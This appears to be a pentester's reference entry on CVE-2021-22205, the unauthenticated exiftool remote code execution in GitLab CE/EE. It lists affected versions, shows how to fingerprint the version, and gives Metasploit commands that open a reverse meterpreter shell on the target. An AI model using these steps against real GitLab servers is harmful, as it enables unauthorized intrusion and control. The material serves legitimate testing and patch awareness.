

# Gitlab - Unauthenticated RCE with exiftool

An issue has been discovered in GitLab CE/EE affecting all versions starting from 11.9. GitLab was not properly validating image files that were passed to a file parser which resulted in a remote command execution.

## Requirements

This vulnerability affect the below **Gitlab CE/EE** versions:

- `>=11.9`, `<13.8.8`
- `>=13.9`, `<13.9.6`
- `>=13.10`, `<13.10.3`

## Exploitation

### Step 1: Try to find the version of Gitlab

First of all, before trying to exploit the RCE, we need to try to find the version of Gitlab. 

- **Authenticated**: The version can often be found on `/help` endpoint when authenticated with a user account.
    
    


- **Unauthenticated**: On recent versions the `What’s new` feature on `/help` endpoint show an approximative version without authentication. Found this menu clinking on `?` button on top right.
    
    
    
### Step 2.1: Exploit using metasploit
    
This RCE technique is available in the `multi/http/gitlab_exif_rce` module in metasploit.
    
```bash
use multi/http/gitlab_exif_rce
set RHOSTS 192.168.1.10
set LHOST wlan0
run
```

### Step 2.2: Exploit without Metasploit

TODO

### Enjoy your shell

After running the metasploit module, if the remote gitlab is vulnerable you will have an meterpreter session.




## References

 - [Action needed by self-managed customers in response to CVE-2021-22205](https://about.gitlab.com/blog/2021/11/04/action-needed-in-response-to-cve2021-22205/)  
 - [Hackerone report #1154542](https://hackerone.com/reports/1154542)  
 - [Gitlab issue #327121](https://gitlab.com/gitlab-org/gitlab/-/issues/327121)  